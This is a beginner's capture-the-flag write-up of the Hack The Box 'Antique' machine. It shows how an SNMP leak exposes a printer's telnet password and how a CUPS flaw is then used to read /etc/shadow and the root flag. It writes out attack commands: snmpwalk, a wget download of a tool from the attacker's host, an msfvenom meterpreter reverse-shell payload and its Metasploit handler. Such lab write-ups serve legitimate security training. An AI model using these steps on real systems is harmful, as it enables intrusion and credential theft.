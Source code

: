# Antique

This is my write-up for the machine **Antique** located at: [https://app.hackthebox.com/machines/Antique](https://app.hackthebox.com/machines/Antique).&#x20;

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walkthrough for this machine.
{% endhint %}

From the tags, I am able to notice that this machine is about printer exploitation on Linux:

![](<../../.gitbook/assets/image (341).png>)

A basic nmap scan shows that only telnet is online:

![](<../../.gitbook/assets/image (331).png>)

Trying to telnet into the system, it asks for a password:

![](<../../.gitbook/assets/image (348).png>)

I also had a deeper nmap scan running: `nmap -A -T4 -p- 10.10.11.107 -oN antique.nmap`

```
// SomeStarting Nmap 7.92 ( https://nmap.org ) at 2021-12-21 16:13 EST
Warning: 10.10.11.107 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.107
Host is up (0.036s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
23/tcp    open     telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
530/tcp   filtered courier
37918/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.92%I=7%D=12/21%Time=61C2455F%P=x86_64-pc-linux-gnu%r(NUL
SF:L,F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetRe
SF:quest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x
SF:20JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DN
SF:SVersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatus
SF:RequestTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword
SF::\x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerb
SF:eros,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPasswo
SF:rd:\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%
SF:r(LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19
SF:,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\
SF:x20")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalS
SF:erver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x2
SF:0")%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,
SF:"\nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20"
SF:)%r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20Jet
SF:Direct\n\nPassword:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 626.36 seconds

```

This nmap scan came back with pretty much the same information. I then viewed the walk-through to see where I had messed up. I learned about a tool called **snmpwalk**. In the walk-through, the author runs `snmpwalk -v 2c -c public 10.10.11.107`, which gets the following output:

![](<../../.gitbook/assets/image (332).png>)

I had actually had found the password for telnet on my own, but I was unable to decode it:

![](<../../.gitbook/assets/image (333).png>)

I use **snmpget**, while the walk-through used **snmpwalk**. In the walk-through they used **binascii** (python import) in order to decode the bytes. I wanted to find a solution that was a bit more basic. I ended up using [https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html](https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html) to convert the bytes from hex to ascii:

![](<../../.gitbook/assets/image (346).png>)

The password seems to be: **P@ssw0rd@123!!123** I was in!

![](<../../.gitbook/assets/image (323).png>)

I then noticed the walk-through mentioned to run `exec id`. I then tried playing around with linux commands, and ended up finding the user.txt file:

![](<../../.gitbook/assets/image (325).png>)

I noticed the write-up use python for the reverse shell. I then used [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) to see if I can use one of their python commands. Once I changed their python command from **python** to **python3**, it worked:

![](<../../.gitbook/assets/image (349).png>)

![](<../../.gitbook/assets/image (350).png>)

I viewed the walk-through again to see what I missed. The walk-through author runs the netstat command to see what connections are there:

![](<../../.gitbook/assets/image (345).png>)

They then go on to say that we should use **chisel** to connect to the port. I ran into an issue here where I was unable to download a GitHub repository onto the machine itself. I then realize that you make the binary locally and then upload it to the server. I uploaded the file to the machine by running `python3 -m http.server` on the folder where chisel was downloaded. I was then able to upload it by running `wget http://10.10.14.10:8000/chisel` on the remote machine. When I uploaded the file, I was unable to run it due to some dependency error in terms of version of libc:

![](<../../.gitbook/assets/image (351).png>)

&#x20;I then followed [this write-up](https://howtohack44323049.wordpress.com/2021/12/13/htb\_antique\_eng/) to see what I missed and what I could have done instead. They run `wget localhost:631`, which makes a file called **index.html** in the folder you are in. There, you can see that CUPS is mentioned:

![](<../../.gitbook/assets/image (339).png>)

When we search for cups on metasploit we get the following:

![](<../../.gitbook/assets/image (338).png>)

We first make a shell file to upload to the server. To do this, the walk-through mentioned previously mentions `msfvenom -p linux/x64/meterpreter/reverse`_`tcp LHOST=<`_`YOUR-IP> LPORT=1337 --format elf > shell`. This will make the **shell** file in your directory. To move it to the remote machine, you can use the python http.server command mentioned previously. Before I ran the shell executable, I ran the following commands in Metasploit (based off of [this write-up](https://howtohack44323049.wordpress.com/2021/12/13/htb\_antique\_eng/)):

```
use exploit/multi/handler
set lhost <YOUR_IP>
set lport 1337
set payload linux/x64/meterpreter/reverse_tcp 
run
```

After I ran the **run** command, I then switched to the remote machine and ran the shell executable (run `chmod +x shell` to make it executable). This gave me a connection in Metasploit:

![](<../../.gitbook/assets/image (347).png>)

I then ran the following commands to look for the cups post exploitation program:

![](<../../.gitbook/assets/image (326).png>)

I then hit run and got an output:

![](<../../.gitbook/assets/image (344).png>)

Opening that file shows the output of /etc/shadow:

![](<../../.gitbook/assets/image (342).png>)

Since we want to get the output of /root/root.txt, I changed my option in metasploit to that:

![](<../../.gitbook/assets/image (335).png>)

Reading that file got me the root flag:

![](<../../.gitbook/assets/image (340).png>)
